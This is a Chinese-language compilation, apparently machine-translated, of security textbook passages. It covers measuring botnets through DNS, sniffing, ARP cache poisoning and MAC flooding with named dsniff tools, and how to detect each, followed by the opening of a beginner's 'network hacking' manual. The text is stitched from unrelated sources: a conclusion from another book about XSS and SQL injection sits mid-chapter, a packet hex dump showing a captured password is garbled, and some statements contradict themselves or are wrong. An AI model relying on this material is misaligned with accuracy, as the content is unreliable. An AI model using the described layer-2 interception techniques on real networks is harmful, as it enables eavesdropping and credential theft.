在计算实际种群时，仅计算唯一用户 ID 的数量是不够的。在对多个僵尸网络的观测中，僵尸的唯一用户名与僵尸的清晰 IP 地址之间的平均比例为 1:3 [RZMT07]。这一比例主要是由于 `Bot` 软件的多线程能力。`Agobot` 及其衍生版本提供了一个 `clone` 函数，可以在受害者系统上生成尽可能数量的僵尸软件实例。因此，僵尸主可以为单个僵尸网络生成多个僵尸实例，也可以将一个受害者系统集成到多个僵尸网络中。因此，僵尸网络通常不是不交的 [RZMT07]。偶尔观察到僵尸主交换僵尸或相互“偷取”对方 [BHKW05]。因此，如果存在 `C & C` 通道的准确且完整的日志文件，种群参数也必须基于估算值。

### DNS 转发 (DNS Forwarding)

Dagon 等人开发了一种基于操作 `IRC` 服务器 `DNS` 记录的替代方法 [DaZL06]。如果受害者系统二进制文件中的访问数据不是固定 IP 地址的形式，而是动态域名的形式，则该方法适用。通过从授权站点更改 `C & C` 通道的 `DNS` 记录，可以将僵尸的连接重定向到单独服务器。该服务器接受所有 `TCP` 连接并记录 IP 地址。这种方法仅允许精确确定足迹参数，而无需任何估算。它无法提供有关活跃种群的信息。

然而，僵尸主可以轻松检测到 `DNS` 记录的重定向，并使用其仍控制的僵尸的 `update` 函数来重构僵尸网络 [RZMT07]。`DNS` 转发方法仅用于确定足迹的大小。无法收集僵尸网络活动的信息，特别是瞬态和未来的 `dDoS` 攻击。

### DNS 缓存分析 (Analysis of DNS Caches)

由于修改过的 `IRCd` 量增加以及转向替代且很大程度上未探索的 `C & C` 通道，并不总是能从僵尸网络本身获取信息。尽管如此，可以使用来自僵尸网络直接环境的外部数据来推导出其特征信息。

一种方法是从 `DNS` 服务器的缓存数据 [RZMT06]。正常情况下，僵尸将执行 `DNS` 查询以加入 `C & C` 通道。该查询独立于 `C & C` 通道的协议。为了分析，被询问的目标地址是从捕获的 `Botsoftware` 二进制文件中提取的。按照固定的间隔，通过多个 `DNS` 服务器检查该资源是否存在于 `DNS` 缓存中。缓存命中意味着在 `DNS` 缓存的 `TTL` 间隔内，至少有一个僵尸尝试登录 `C & C` 通道。因此，可以评估足迹的大小。无法得出种群规模的衍生数据。为了实现可靠的估算，需要查询大量的 `DNS` 服务器。

## 僵尸网络的破坏 (Challenge of Botnet Destruction)

停止已识别和分析的僵尸网络通常是困难的，而且研究较少。在个案例中，可以观察到敌意的僵尸主本身通过克服传统的安全机制，也可以用于停止恶意僵尸网络。在中心 `C & C` 通道的情况下，禁用中心站点是破坏僵尸网络的安全方法。立即终止僵尸网络通过 `C & C` 参数已知的所有地址会导致整个僵尸网络的立即停止。在实践中，这可以通过警察没收服务器来实现。替代和长期方案尚不明确。

> 第 14 章 – 嗅探与欺骗：针对二层网络的攻击

本节的目的是说明“嗅探”（sniffing）和“欺骗”（spoofing）方法的关键特征，以及它们与二层和三层网络协议攻击的相关性。它还描述了网络管理员检测此类攻击以及可能的应对措施。这将使用户能够更好地保护自己免受此类攻击和可能的损害。

## 引言 (Introduction)

计算机网络常用的通信模型是 `ISO/OSI` 分层模型，这是一个用于异构计算机网络的分层通信模型 [Tane03]。每一层都隐藏了所有底层结构，并为上层提供一个定义良好的接口，该接口提供了网络通信的方法。如果该模型中的某一层被攻破，上层的完整性也会受到影响。

攻击低层数据传输的可能性是多样的，而且有时并不复杂。为了能够表示这些攻击并解释可能的应对措施，我们首先简要回顾 `ISO / OSI` 模型的结构。此外，将解释最重要的协议的功能，以及分层通信模型的根本缺陷。随后，将给出“嗅探”和“欺骗”术语。然后，我们描述了攻击者可以用来破坏网络系统安全的特定方法；之后解释了使用记录的数据可以采取哪些持续方法。最后，我们讨论了基于嗅探和欺骗技术的进一步方法。

### ISO/OSI 模型中的第 1 到 4 层


为了在执行在不同计算机系统上的两个应用程序之间实现通信，许多不同的硬件和软件组件。特别是网络适配器、驱动程序、软件库以及应用程序的部分是必关重要的。从通过信号解码和转发的物理信号传输开始直到应用层，可以识别出一个分层次的通信过程，即 `OSI` 模型。该模型描述了各个层，通过这些层将其功能的各个组件及其任务进行分类。

某一层的组件通常访问底层提供的服务和服务方法来完成其任务，反之，又为下一层的组件提供各种服务。每一层都向下一层隐藏其实现细节，同时可以透明地与远程计算机系统上的对应层进行通信。因此，在不同系统的两个对等层之间存在虚拟的水平通信，即不同系统上相同组件之间的数据交换；而实际的通信是与底层的垂直通信。只有在信号传输的最低层级，才会发生真实的物理水平通信。

这种统一建模使得即使在异构环境练习（即涉及各种传输技术、操作系统和应用程序）也能实现通信。如果将发送者和接收者识别为应用程序，那么第 1-4 层至关重要，因为数据的分布、交换和物理传输就发生在这里。第 5-7 层在发送者和接收者自身的计算机系统内部起作用。

由于未解释的电信号具有高度复杂性，第 1 层并不代表一个实际的起点。从 `layer 2` 开始，数据已经以数字形式存在，可以被程序和用户读取、评估，甚至可能被修改。因此，即使攻击者访问了 `Layer 1` 数据（即接收电或光信号），它也必须通过解码传输到 `layer 2` 才能进行分析。

## 各个协议的功能

此处给出的功能描述限于协议与安全相关的方面，并不声称是完整的。更详细的描述可以在各个来源中找到。

### · 第 2 层：CSMA/CD (以太网)

`Ethernet` 协议的基本原理是所有连接的订阅者对公共发送线进行持续监控。为了避免冲突，只有在没有其他站正在传输时才传输数据。然而，由于信号传播速度的有限，如果两个订阅者同时开始传输，就会发生冲突。如果检测到冲突，涉及的站将重复传输。`Ethernet` 协议现在是计算机网络的准标准，但在电信领域以及照明和声学技术中也变得越来越流行。`Ethernet` 协议中最常见的拓扑是总线系统和星形网络。对于现代 `Ethernet` 网络，需要具有八对扭绞和屏蔽线的双绞电缆。根据速度，仅使用四线对中的一对 [Robe05]。

### · 第 2 层：令牌环网

在 `token-ring` 协议中，一次只有一个用户有权以虚拟令牌的形式发送，从而避免冲突。每个参与者有一个前驱（从他那里接收令牌）和一个后继（向其传递令牌）。如果要传输数据，参与者将数据附加到令牌上并标记为“忙碌”。如果令牌到达接收者，它将获取数据并以相同的方式向发送者发送确认。描述的先驱原理产生了闭合环形拓扑。

### · 第 3 层：IP

`Internet Protocol` (`IP`) 为网络提供了跨多个站的调解。这允许多个网络连接，并在未连接到公共介质的计算机之间发送数据包。`Internet Protocol` 的第 4 版使用 32 位的 `IP` 地址，通常由四个十进制编码的字节组表示，例如 `194.25.2.129`。然而，`Internet Protocol` 的第 6 版使用 128 位的地址，其表示法

`MAC` 地址也类似，例如 `2001: 6f8: 915: 0: 230: 1b ff: feb9: 742b`。两个协议版本的共同点是，除了 `IP` 地址外，网络掩码通过从左侧将 `IP` 地址分为网络部分和计算机部分，决定目标计算机是否可以在本地网络中访问。如果无法在本地访问计算机，通常会选择一个后续计算机并将数据包转发给它。这一决策过程被称为“路由”。[Post81b, DeHi98]

### · 第 2 层：ARP

借助 `Address Resolution Protocol` (`ARP`)，`Internet protocol` 地址（`IP` 地址）被翻译硬件地址（也称为介质访问控制或 `MAC` 地址）。`MAC` 地址长度为 48 位，采用十六进制形式（例如 `00: 30: 1B: B9: 74: 2B`）。网络中的每个参与者都在所谓的 `MAC` 表中以表格形式存储 `IP` 地址到 `MAC` 地址的映射。在 Linux 计算机上可以使用 `arp` 命令查看当前的 `MAC` 表。例如，一个条目的格式如下：

```
computer.ea (192.168.1.14) at 00:30:1B:B9:74:2B [eth0]
```
在这里你可以看到计算机名称 ("ea")、IP 地址和相应的 MAC 地址。此外，还保存了可以通过哪个网络适配器访问计算机 ("eth0")。因此，`ARP` 建立了第 2 层和第 3 层之间的连接。这是一个简单的无状态协议，只有两种可能的数据单元：“arp-request”和“arp-reply”。

为了确定与 `IP` 地址（例如 `192.168.1.14`）相关的订阅者的 `MAC` 地址，会生成一个 `arp-request` 包并发送到连接到公共介质的所有站。具有目标 `IP` 地址的站会将发送者的 `MAC` 地址存入自己的 `MAC` 表中，并向发送者发送一个包含其自己的 `MAC` 和 `IP` 地址的包。这允许发送者正确地为同一 `IP` 地址寻其他数据包 [Plum82]。

### · 第 3 层：ICMP

`Internet Control Message Protocol` 用于在网络通信伙伴之间交换控制信息。在最著名的协议中，数据单元是“echo-request”和“echo-reply”。通过 `echo-request` 包，一个参与者向另一请求 `echo-reply` 响应。这通常会有回复，使得 `ICMP` 成为检查者可用性的常用方法。此外，还可以测量响应发生之前经过的时间，从而获得通信伙伴反应时间的大致估计，即所谓的延迟。为了发送和接收此类包，可以使用 `ping` 程序，它在每个操作系统中都可用 [Post81a]。

### · 第 4 层：DNS

`Domain Name System` 提供了将计算机主机名（例如 `www.google.com`）翻译为其 `IP` 地址的方法。它节省了用户在浏览器等程序中输入 `IP` 地址的麻烦，并已成为该功能的标准。此外，如果配置得当，`DNS` 服务器可以用于 `IP` 地址“回滚”为主机名，例如使服务的日志文件更具可读性，被称为反向 DNS。在计算机网络中，此服务通常由一个或多个 `DNS` 服务器提供 [Mock87]。

### 第 4 层：DHCP


动态主机配置协议（DHCP）处理连接站的动态和自动配置。它为参与者提供了参与当前网络通信所需的所有信息。这通常包括 IP 地址、子网掩码、默认网关以及网络中的一个或多个域名服务器。DHCP 的可能应用主要是为了网络中计算机系统的简化和自动配置 [Drom97]。

## 分层通信模型的根本性弱点

分层通信始终将定义明确的功能封装在更低的一层中。使用下一层级服务的进程依赖于该层来正确执行其工作。按照规定，它无法看到底层结构。

如果某处的通信遭到破坏，那么不仅是数据和内容，高层的控制信息也会受到影响。如果高层传输的内容没有加密，或者没有采取防止操纵和意外窥视的安全措施，那么可靠的通信将不再可能。

因此显而易见，整个系统的安全性永远低于单个子组件。对较低层级之一的攻击都是严重的威胁。

## 嗅探

在网络安全背景下，嗅探是指对数据的监听 [Russ02]。因此，它代表了对网络安全的被动攻击，因为攻击者通常不向网络发送数据。相反，他会尝试通过收集信息和读取有用的秘密来获取更多信息。这些可以是用户名和密码等凭据，以及基于知识的协议和机制。

由于其被动性，通过嗅探进行的攻击非常难以检测。如果攻击者自己发送数据以获取网络流量，他就会暴露自己。此外，在某些情况下，可以尝试让协作者暴露自己。

### 窃听作为一种保护措施

嗅探的目的并不总是造成损害、忽略信息或绕过安全机制。相反，嗅探可以帮助监控网络，并及时检测故障、攻击和其他中断。

## 欺骗

在网络和计算机安全背景下，欺骗是指身份的伪造（[Russ02] .）。欺骗可以发生在 ISO / OSI 通信模型的每一层。与嗅探攻击不同，某一层的被破坏不会自动阻止正在发生的通信：`IP` 数据包中的伪造发送者地址并不一定会导致邮件发送者地址错误。

在本文中，欺骗仅被视为对底层及其上层协议（如 `ARP` 和 `IP`）的攻击。

### 欺骗的积极方面

与嗅探一样，也存在不影响系统安全的应用程序欺骗案例。例如，在以下应用领域中：

*   设置了所谓 `VirtualHosts` 的 Web 服务器，欺骗其为其提供数据的域名所属 Web 服务器的身份。
*   在故障转移场景中，欺骗 `MAC` 地址提供了一种可能性：在主计算机故障时，让客户端在不被替换计算机察觉的情况下执行其服务。

## 方法与途径

下文描述了常见的底层组件以及它们的漏洞、成因和可能的应对措施。通常，攻击和欺骗攻击之间没有明确的区别；通常，这两种技术被同时使用。当数据必须被重定向以便稍后读取时，情况尤为如此。此外，通过嗅探有关身份的信息（如密码和用户名），你还可以获得地址，然后在欺骗攻击中接受这些地址以进一步扩展攻击。

### 电缆和集线器

如果网络的所有站都通过电缆连接，那么每个参与者都会接收到所有数据包。当站通过中央集线器连接时也是如此。各个站的网络适配器知道自己的 `MAC` 地址，并过滤数据包流中发送给自己的部分。

## 示例

以下在网络接口上读取的 `ARP` 流量示例输出。你可以看到两点：IP 地址为 `.1` 的参与者尝试确定 IP 地址为 `.12` 和 `.222` 的节点的 MAC 地址。为此，他发送了 `arp-request` 包。从左列指示的时间所示，对此类请求的响应在极短时间内完成的。

```
13: 37: 43.365944arp who - has192.168.1.222 tell192.168.1.1
13: 37: 43.366207arp reply1 9 2\. 1 6 8\. 1 . 2 2 2 is - at 0 0: 0 b: 8 2: 0 5: 3 f: b7
13: 37: 44.586755arpwho - has192.168.1.12tell192.168.1.1
13: 37: 44.586892arpreply1 9 2\. 1 6 8\. 1 . 1 2 is - at 0 0: 1 1: 2 4: 8 8: 0 2: f 0
```

第二个示例是来自 FTP 服务器 `ftp.kernel.org` 登录过程的包。左侧列指示数据在数据包中的位置，随后是数据的十六进制表示。在右列中，只要每个都是可显示字符，数据就会显示为可读字符。你可以看到用户指定的密码。

```
0x0 0 0 0:00055 d7c e 8 e 5 0 0 3 0 1 bb9 742 b 0 8 0 0 4 5 1 0..] | .., 0., t +. .E.
0x0 0 1 0:004 ea80b 4 0 0 04006451 ac 0 a 8010 ecc 9 8.N. .. @. @ E               .......
0x0 0 2 0:bf 2 5cb 2 100154 c 9 8db79 1 7 4 5 e 8 from 8 0 1 8!.%. ..L. ,               y. E. , , ,
0x0 0 3 0:002 e80 d200000101080 a0 d217 b6d0 cf.........., ! m.
0x0 0 4 0:000558504153532070617373776f26440 , PASSPORT . password @
0x0 0 5 0:646f6d6a696e.com. ,
```

## 无线网络

除了以太网外，二层上的无线网络（WLAN）的行为就像所有参与的站都是通过公共电缆连接的一样。毕竟，每个参与者都可以通过一个天线接收所有数据流量。再次，你可以使用开启了混杂模式的网络卡来读取来自其他参与者的入包。与有线网络不同，无线网络通常使用透明加密传输数据的方法。为了功能监控，攻击者必须已经是加密网络的一部分。

在 Linux 系统上，只有 `root` 用户被授权执行此操作。无权限用户会收到错误信息：`socket: Operation not permitted`。

### 窃听

获取网络数据包的另一种方法是字面上“接线”任何你具有物理访问权限的有线网络。这个过程被称为接线或分接器 [Grah00]；使用的设备被称为 `TAP` 设备。

可以想象的最简单的 `TAP` 设备由一个网络适配器组成，其接收线连接到要监控的电缆的传输线。然而，当前的以太网传输器会定期间隔发送信号以检查对方是否仍在响应。由于电缆的单向连接，这种检查会失败，你必须依靠带有 `AUI` 收发器的旧卡。由于这种方法更多地是一种“黑客手段”而非可靠的分析方法，不如购买专业的 `TAP` 设备。这些设备透明地转发网络流量，但提供了向连接的订阅者发送副本的机会。现代交换机也有在单个端口上复制所有流量以进行监控的能力 [3Com]。


这种 TAP 设备的优势在于它仅被动地工作。如果你用它来调查网络中的攻击和故障，由于其被动性，它只有极少数的故障点，因此只能受到非常有限的破坏。攻击者无法获取有关系统存在或状态的信息。另一方面，如果攻击者成功地在网络上安装了 TAP 设备，则很难通过网络流量分析来追踪它。

## 检测可能性

取决于攻击者行为的范围，有无或多种方法可以追踪网络上的嗅探器。然而，对于这些可能性中的大多数情况，攻击者也有相应的对策，因此在攻击者和防御者之间有时会变成一种攻鼠竞赛（Wettrusten）。

> · 域名服务器请求：目前的嗅探器程序（如 `tcpdump`）提供了通过反向 DNS 功能显示主机名而非 IP 地址的能力，从而增加了输出的可读性。这需要的大量 DNS 查询可以在域名服务器上检测到。如果你额外配置一个位于网络地址范围之外的 IP 地址的网络节点，并让它自动生成网络流量，你可以在域名服务器上检测到对其 IP 地址的请求，并断定你正在使用嗅探器程序 ([ Grah00])。

> · 攻击者的延迟：如果计算机系统上安装了嗅探程序，由于需要分析网络流量和相关的计算工作，它对网络请求的响应可能会更慢。通过从单台计算机测量连接订阅者的响应时间（例如使用 `IMCP` 协议），可以从网络负载与订阅者延迟之间的相关性推断出嗅探器程序的使用 [Russ02]。

> · 软件缺陷：在驱动程序和网络协议栈实现出现错误的情况下，你可以部分利用这些错误来查看主机是否处于混杂模式。例如，[Russ02] 第 398f 页描述了以太网驱动程序的案例。在这种情况下，如果网卡在混杂模式下运行，则跳过对 MAC 地址的验证。如果你向网络发送一个带有计算机 IP 地址且与自身 MAC 地址不同的 `ICMP echo-request`，计算机会回复一个 echo-reply，你就可以断定网卡在混杂模式下运行。

## 交换机

上述所有问题的发生都是因为每个连接的计算机都可以接收网络中的所有数据，而数据过滤是由网络适配器完成的。这使得攻击者很容易访问其他参与者共享的数据。解决这一困境的方法似乎是提供交换机。本质上，它们行为类似于集线器，区别在于知道哪台计算机连接到哪个端口。因此，除了 `arp-request` 数据包外，只有同样针对该计算机的数据包会被转发到那里。为了这个目的，交换机有一个表，其中存储了每个端口可以通过该端口访问的哪些 MAC 地址。这种表的典型示例是 16 端口交换机具有 `2 13 = 8192` 条目，但大小随不同的制造商和型号而异。

## 缓存投毒与 ARP 欺骗

假设交换机正常工作，它消除了读取未发送到自己地址的数据的能力。因此，对于攻击者来说，所有要读取的数据包都必须指向他/她。

每个订阅者都会在本地 MAC 地址表中存储特定 IP 地址对应的目标计算机的 MAC 地址。这种在远程计算机的 MAC 表中故意注入虚假信息的攻击被称为缓存投毒攻击。为了向网络其他部分宣称可以在自己的 MAC 地址下访问一个外部 IP 地址，有两种可能性：

> · 回应外部请求：每当网络中的计算机请求目标 IP 地址时，攻击者都会用其 MAC 地址进行响应。这必须发生非常快，快到 IP 地址正所有者的有效答案会被拒绝。由于这种极快速响应的条件，这种攻击很难实施。此外，`ARP` 协议有一个漏洞，不需要对 `arp-request` 数据包做出及时响应。

> · ARP 协议中的漏洞：为了简化网络管理，订阅者可以在网络中主动发送其 MAC 地址，并让所有连接的计算机更新其 MAC 表。这种过程被称为 `gratious ARP`，它应用于移动网络设备，这样在从一个网络移动到另一个网络时，可以将某些数据重定向到旧网络中的代理，而不影响现有连接。攻击者现在会错过这样的数据包，因此他的受害者会将错误的 MAC 地址首先存入 MAC 表，然后将以太网数据包指向攻击者。它会定期重传其 MAC 地址，以便受害者 MAC 表中的条目始终是最新的，受害者本身不会向网络发出请求。这里使用的 ARP 数据包是普通的 `arp-reply`，它只能防止状态检测数据包过滤器的 `gratious ARP`。关于 MOG 机会的详细描述和检查此点的程序提供了 `dsni ff` 包中的 `arpspoof` 程序 [Song]。

## MAC 地址泛洪

交换机的另一个漏洞是其有限的 MAC 表。如果交换机在 MAC 表中找不到某个 MAC 地址的条目，它会将数据包传输到所有连接的站。然后它分析答案并学习接收者可以通过哪个端口到达。如果交换机的 MAC 表已满，旧的条目会被新条目覆盖。如果攻击者成功并随后用错误信息覆盖交换机的 MAC 表，他就可以接收到并非属于他的数据。他通过向交换机发送大量由他自己回答的数据包来实现这一点（此处原文应为发送大量他能响应的数据包）。由于不同的发送者 MAC 地址，交换机的 MAC 表最终会被覆盖，有效条目将被覆盖。此后，交换也将把其他订阅者寻找其 MAC 地址的数据包转发给攻击者。可以执行此工作的程序是 `macof`，它也在 `dsni ff` 包中 [song]。

## 检测能力：ARPwatch 和 ARP 流量分析

如果攻击者同时攻击连接的两端，他可以通过自己的计算机重定向两个受害者之间的所有网络流量。因此，他可以轻松地监听并执行特殊类型的持续攻击。

除了之前描述检测此类监听器的方法，攻击以及随后的网络流量重定向提供了进一步可以识别攻击的方面。最重要的是，这里分析了攻击阶段增加且异常的 ARP 流量，并作为此类攻击的指示。

## 结论

感谢你读完《新手黑客入门》，希望这些内容对你有帮助，并能为你提供实现目标所需的所有工具，无论这些目标是什么。

总之，Web 应用始终包含安全漏洞，这些漏洞经常被黑客利用。在这篇论文中，详细检查了 XSS、SQL 注入和钓鱼攻击这三种黑客技术。任何系统中存在此类漏洞的人都必须预期这些漏洞也会在其系统中被发现和利用。

在大多数情况下，你必须在安全和舒适之间进行权衡。更高的安全性通常意味着更低的舒适度，反之亦然。


要检测此类攻击，可以监控网络是否存在过量的 `arp-replys`。此外，还可以参考 `arp-requests` 和 `arp-replys` 之间的关系。如果响应的数量超过请求的数量，则可能存在 ARP 欺骗攻击。请参阅 [CaGo03]。

## 如果攻击成功

如果攻击成功，本质上有两种检测方法：

1. 监控 ARP 表：通过使用如 `arpwatch` 等特殊软件，你可以检测 `MAC` 表的变化并触发报警。
2. 延迟监控：除了上述通过从中心点测量单台计算机反应时间的可能外，对两台计算机的同步攻击以及相关的延迟网络流量转向，也会导致两个被牺牲节点之间数据包的传输时间增加。如果参与者监控其通信伙伴的响应时间，他可能会怀疑流量通过第三台计算机进行了重定向。

## 网络黑客

计算机无线网络技术、连接和通信系统的完整指南工具。

通过服务和硬件对网络进行实际渗透。

## 引言

恭喜你下载《初学者网络黑客》。我很高兴你选择通过我们的手册来学习网络黑客知识。在本手册中，重点将放在网络黑客上。你将学习更多关于用于访问特定网络的不同黑客技术。随后还将讨论如何发现某些安全漏洞以及如何修复网络中存在的某些缺陷。黑客分为两种：白帽黑客和黑帽黑客。白帽黑客从事伦理破解。本文的重点将是于伦理破解。

计算机和网络安全是一个相当复杂的主题。你应该始终领先一步，以确保你的网络没有被外部攻击者非法访问。本文还将概述一些用于确保你网络安全的工具和技术。确保网络安全的最好方法是理解外部攻击者的心态。

你可以利用所获取的知识来保护你的网络。在此背景下，伦理黑客也将更多地关注白帽黑客或安全专家使用的某些渗透技术。我们还将更多关注漏洞测试。其中一些测试可以帮助你识别网络中存在的某些安全缺陷。这些漏洞也可以被封堵，以确保外部攻击者无法访问网络并获取可以用于获利的各种类型的信息。有时，你不需要对预算非常严格，而是要看它对你生活的影响。

## 第 1 章：计算机网络基础

网络黑客是指始终操纵特定网络连接行为的技术努力。负责网络黑客的人被称为黑客。黑客被认为是一种建设性和技术工作，并不完全基于计算机系统的基础。黑客通常与使用恶意程序有关，这些程序用于攻击互联网上的不同网络。

### 关于黑客的起源

“Hacking”一词源于 20 世纪 50 年代和 60 年代活跃于麻省理工学院（M.I.T.）的一些工程师。这些黑客甚至会会破解大型机计算机。其他人也在麻理工之外从事黑客活动。后来，互联网和计算机网络获得了一定的普及，从事黑客活动的人激增。大多数从事黑客活动的人从小就开始此类活动。

### 常见的网络黑客技术

在进行网络黑客时，人们会利用脚本和不同的网络软件。网络软件是专门设计的，用于操纵通过特定网络的不同形式的数据。黑客可以获取一些信息，允许他们更多地了解特定系统的运行方式。互联网上发布了许多脚本，任何人都可以访问。寻找预包脚本的人是初级黑客。大多数高级黑客都会努力研究每一个脚本，并可以根据意愿对其进行修改。有很多技术高明的黑客，他们被商业公司聘佣，以保护公司内部的软件，使其无法被未经授权的个人访问。

除了黑客攻击，还有其他渗透技术，包括创建 DoS（拒绝服务）攻击和蠕病毒。采取了不同的措施以确保计算机和网络不受钓鱼、恶意软件和木马的影响。大多数公司聘佣黑客是因为他们对黑客技术了解更多，并可以部署必要的反击。

### 黑客技能

要成为一名专业的黑客，你应该具备以下某些性格特征和技术技能：

* 你必须能够处理数字。黑客涉及阅读大量的代码、数据和各种计算机算法。
* 你必须具备逻辑推理和记忆检索能力，因为作为黑客，你必须在逻辑规划攻击时整合微小的细节和事实。
* 你必须有耐心。黑客过程非常复杂，你可能花费大量时间试图想出一个可执行的计划。

网络指南重要的主要原因是：

* 学生可以学习更多关于网络的优势。
* 它有助于学生利用他们所拥有的网络知识。
* 它确保学生在进行网络开发时可以很容易地规划他们的下一阶段。
* 它提供了一个标准的网络“模型”以及一些最佳实践，帮助学生进行网络规划。

## 网络基础

计算机网络由一组相互连接并相互通信的计算机和其他设备组成。下图展示了网络示例，它由一个连接计算机到互联网和各种服务器的局域网组成。



网络有两种类型，如下：

1. 对等网络（Peer-To-Peer Networks）：它们通常实现在少于 10 台计算机的区域，不一定应用严格的安全措施。每台计算机具有相同的状态，它们很容易相互通信。还可以在整个网络共享不同的文件，包括电子表格和文字处理文档。此外，网络上的每台计算机都共享相同的设备，包括扫描仪和打印机。
2. 客户端/服务器网络（Client/Server Networks）：适用于较大的网络。有一台作为“服务器”的中央计算机。它存储在整个网络共享的所有应用程序和文件。与普通计算机相比，服务器拥有更多的能力。它可以控制连接到网络的计算机。普通计算机通常供学校的的学生使用，而网络管理员可以访问整个服务器。

### 网络组件

网络由以下组件组成：

* 至少两台计算机。
* 用于连接计算机之间的电缆。
* 每台计算机都将有一个网络接口设备。


> 一种用于将数据从一个点切换到另一个点的“交换机”。

> 一种网络操作系统。

## 结构化布线
最流行的布线技术包括同轴电缆和双绞线。

## 集线器与交换机
这些是用于将计算机连接到网络的设备。集线器通常在网络中引导信息，并促进所有连接设备之间的通信。交换机被分类为“智能集线器”。交换机和集线器连接所有设备。使用交换机时，你可以确保获得“专用带宽”的同时以全速运行。集线器通常在不同连接之间共享带宽，一台 PC 的活动可能会降低集线器上的互联网连接。

## 关于无线网络
“无线网络”一词通常指的是许多计算机使用标准网络协议进行通信，且没有现场布线。计算机在从一个网络发送信息到另一个网络时，也可以使用无线电信号。

### 无线局域网 (WLAN)
网络由两个主要部分组成，包括无线网卡和接入点。只要两台计算机距离彼此足够近，就可以之间传输信息。

### 无线局域网的优点：
* 易于添加工作站。
* 可以确保无法布线的区域也能访问网络。
* 安装过程快速且简便。不需要穿过天花板和墙壁的布线。
* 只要人在接入点范围内，就可以从任何地方访问网络。
* 它特别在确保便携式网络能够访问网络时非常方便。
* 安装成本更低。
* 具有长期的成本效益。

### 无线局域网的缺点：
* 数据传输速度总是较慢，取决于连接到网络的计算机数量。
* 标准经常变化，无线网卡在一段时间后可能也需要更换。
* 降低无线带宽将降低网络的有效性。
* 安全性无法保证，必须进行某些配置。
* 设备只能在距离特定接入点的有限距离内运行。
* 有线局域网也为无线局域网提供骨干。
* 在静态环境中，较难实现长期的成本效益。

### 无线网络的组成
有许多组件用于配置无线局域网。其中一些组件也用于配置有线局域网。在无线局域网和有线局域网中，都使用了网络适配器。无线局域网 PC 卡通常包含内置天线。它用于将计算机连接到周围的无线网络。计算机上有一个它的插槽。也可以将台式计算机连接到无线网络。在无线网络中，有一个“接入点”，它的功能与有线网络中的集线器类似。它通常通过适配器接收和广播信号。

无线网络和有线网络的主要区别在于，在无线网络中，计算机是通过电缆连接的。而无线网络，不需要电缆来建立不同计算机之间的连接。网络由两个主要部分组成，包括无线网卡和接入点。只要两台计算机距离彼此足够近，就可以之间传输信息。

### 无线网络的配置
无线网络可以使用局域网或对等点安排进行配置。

### 对等点配置
对等点配置被称为最基本的无线网络配置。它通常依赖于安装在计算机内的无线网络适配器，它们可以轻松相互通信。为了使计算机连接，它们应该在传输范围内。如果有许多计算机连接在一起，它们应该彼此相互近。对于这种类型的网络配置，没有网络管理开销。该配置主要适用于小型安装。

## 无线配置的优势
在有线局域网中，人们花费更多时间进行布线。而无线配置具有以下优势：
1. 安装无线局域网所需的工作量极小。
2. 在难以布线的区域也可以访问无线网络。网络停机时间也降至最低。
3. 有了无线网络，无论设备位置如何，都可以一直保持网络连接。
4. 无线网络以球形方式运行。
5. 可以在无线网络上共享文档。

### 无线网络的额外优点：
1. **速度**：在通过网络共享不同文件时，网络非常方便。当网络不可用时，文档只能使用闪盘和其他物理介质从一个点传输到另一个点。使用物理介质传输文档时，过程非常耗时。
2. **成本**：有很多软件程序，并且它们具有成本效益。
3. **集中化软件管理**：在安装网络时，可以在文件服务器上安装软件，供网络中连接的所有计算机使用，这意味着无线网络有助于节省时间。
4. **资源共享**：可以在连接了许多计算机的网络上共享资源。
5. **灵活访问**：人们可以访问连接到特定网络的任何计算机上的不同文件。
6. **安全性**：网络上的文件和程序可以使用“禁止复制”功能进行保护。密码也可以用于保护不同的文档。

### 安装网络时遇到的主要挑战包括：
1. **成本**：虽然无线网络应该是具有成本效益的；但初始投资是昂贵的，因为你还需要雇用技术人员。
2. **需要管理时间**：网络应该得到善维护。应该雇用网络管理员来处理此类问题。
3. **文件服务器可能会故障**：文件服务器在不同方面都很脆弱。当文件服务器故障时，整个网络将无法运行。不同的文件和程序可能会可能会丢失。

## 关于思科


CISCO 是一家提供互联网网络服务的公司。该公司自 1984 年以来一直运营至今。该网络还由两名在斯坦福大学学习的科学家建立。CISCO 提供的网络解决方案正被不同的服务提供商以及许多中小企业利用。该公司提供的网络解决方案通常连接计算设备、人员和计算机网络。现在人们可以在与他人连接的同时分享不同的信息。很大比例的互联网流量也一直在在 CISCO 系统中传输。该公司还利用互联网运行其自己的在线业务，从库存管理到产品订单无如此。在使用互联网时，CISCO 还可以跟踪差旅和员工开支。在探索对你的业务有益的各种可能性时，你应该选择 CISCO 系统，因为公司对如何让你的业务上线有更深入的。通过利用 CISCO 拥有的经验和知识，你可以增强业务的进阶增长。

## 第 2 章：黑客简介

黑客技术和黑客分类有多种。在书中，重点将放在伦理黑客上。准确地说，我们将研究网络黑客。还将讨论一些用于测试计算机及其网络是否存在安全问题的方法。所有这些漏洞都将得到概述，因为黑客利用其中一些漏洞来获取网络访问权限。至于伦理黑客，它主要涉及利用一些专业证明的安全技术，这些技术被用于确保网络安全。这些测试由 IT 专业人员执行，他们在获得网络系统所有者的授权后履行此类职责。

### 黑客领域使用的不同术语

**黑客 (Hackers)**：这些人是试图破解他们非法获取的敏感信息的人。某些黑客通常针对他们认为保护良好的系统，因为他们想在自己的圈子内提高地位。

**恶意内部用户 (Malicious Internal Users)**：他们也被称为内部攻击者。他们通常试图破解敏感信息，因为他们可以轻松地在组织内部访问。

**伦理黑客 (Ethical Hackers)**：他们是好人。他们可以进入系统并确保已通知用户当前存在的漏洞。网络所有者随后采取必要措施，确保恶意个人无法访问计算机系统和敏感信息。

“黑客”一词有两种定义方式。传统上，这个术词显示了这类人喜欢篡改不同的电子和软件系统，他们也喜欢研究计算机是如何运行的。目前，黑客是指为了个人利益恶意进入系统的人；这些人通常会获取关键形式的信息，并利用它来占他人便宜。

### 黑客的类型

1. **黑帽黑客 (Black-Hat Hackers)**：通常怀有不当目的的黑客。
2. **白帽黑客 (White-Hat Hackers)**：他们是好人，通常执行伦理黑客行为。

### 黑客的心态

